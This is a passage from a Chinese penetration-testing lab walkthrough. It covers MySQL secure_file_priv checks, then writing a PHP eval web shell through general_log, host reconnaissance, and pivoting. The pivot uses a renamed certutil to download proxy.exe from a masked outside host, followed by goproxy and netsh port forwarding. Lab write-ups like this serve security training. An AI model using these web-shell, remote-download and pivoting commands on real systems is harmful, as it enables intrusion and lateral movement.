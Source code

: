         - 查询`secure_file_prive`的参数：

          ```sql
          show global variables like "%secure%"
          ```

          > `secure_file_prive=` ，结果为空的话，表示允许任何文件读写
          >
          > `secure_file_prive=NULL`，表示不允许任何文件读写
          >
          > `secure_file_prive=某个路径`，表示这个路径作为文件读写的路径
          >
          > 在 mysql5.5 版本前，都是默认为空，允许读取；
          >
          > 在mysql5.6版本后 ,默认为`NULL`，并且无法用SQL语句对其进行修改。所以这种只能在配置进行修改。

          因此这里不满足条件，只能通过日志来getshell。

2. 日志getshell

```
set global general_log='on'; #开启日志
set global general_log_file='C:\\phpstudy_pro\\WWW\\b.php'; #设置日志位置为网站目录
select '<?php @eval($_POST["isok"]); ?>'; #写马
```

## 主机信息收集（web2）

### 系统信息

通过比对 `systeminfo` 信息，找到可提权的漏洞，比如ms16-075。

### 内网IP信息

根据执行的命令可知该计算机的内网IP有：`192.168.22.135`、`10.10.10.138`。并且发现该主机存在**域环境**。

![18]({{ '/ack123/18.png' | prepend: site.url }})

### 进程信息

查看进程信息，发现没有杀软。

## 上线CS

发现该主机不出网，因此我们需要做端口转发。那么使用 [goproxy](https://snail007.host900.com/goproxy/manual/zh/#/) 工具在`data1` 主机上做端口转发：

```powershell
shell c:/windows/temp/sethc.exe -urlcache -split -f http://xxx.xxx.xxx.xxx:8899/proxy.exe c:\windows\temp\proxy.exe
shell c:/windows/temp/proxy.exe http -t tcp -p "0.0.0.0:8080" --daemon
netsh interface portproxy add v4tov4 listenaddress=192.168.22.133 listenport=8888 connectaddress=192.168.76.107 connectport=8080
```
